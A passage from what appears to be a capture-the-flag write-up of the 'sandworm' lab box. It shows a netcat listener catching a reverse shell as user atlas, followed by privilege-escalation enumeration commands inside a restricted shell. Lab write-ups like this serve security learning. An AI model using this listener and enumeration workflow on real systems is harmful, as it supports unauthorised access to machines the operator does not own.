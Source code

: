 I started a netcat listener on my machine, then sent a message signed with that key.


```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.19] from (UNKNOWN) [10.129.229.16] 39356
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
/usr/local/sbin/lesspipe: 1: dirname: not found
atlas@sandworm:/var/www/html/SSA$ whoami
whoami
Could not find command-not-found database. Run 'sudo apt update' to populate it.
whoami: command not found
atlas@sandworm:/var/www/html/SSA$
```

## User silentobserver

Once connected to the server, I quickly found I couldn't do much on it.

```bash
atlas@sandworm:/var/www/html/SSA$ whoami
whoami
Could not find command-not-found database. Run 'sudo apt update' to populate it.
whoami: command not found

atlas@sandworm:/var/www/html/SSA$ id
id
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas)

atlas@sandworm:/var/www/html/SSA$ sudo -l
sudo -l
Could not find command-not-found database. Run 'sudo apt update' to populate it.
sudo: command not found

atlas@sandworm:/var/www/html/SSA$ find / -perm /u=s
find / -perm /u=s
Could not find command-not-found database. Run 'sudo apt update' to populate it.
find: command not found

atlas@sandworm:/var/www/html/SSA$ ps aux --forest
ps aux --forest
Could not find command-not-found database. Run 'sudo apt update' to populate it.
ps: command not found

atlas@sandworm:/var/www/html/SSA$ which curl
which curl
Could not find command-not-found database. Run 'sudo apt update' to populate it.
which: command not found

atlas@sandworm:/var/www/html/SSA$ which wget
which wget
Could not find command-not-found database. Run 'sudo apt update' to populate it.
which: command not found

atlas@sandworm:/var/www/html/SSA$ ls -l /bin
ls -l /bin
lrwxrwxrwx 1 nobody nogroup 7 Apr 23  2020 /bin -> usr/bin

atlas@sandworm:/var/www/html/SSA$ ls -l /usr/bin
ls -l /usr/bin
total 14300
-rwxr-xr-x 1 nobody nogroup   35328 Sep  4 11:42 base64
-rwxr-xr-x 1 nobody nogroup   35328 Sep  4 11:42 basename
```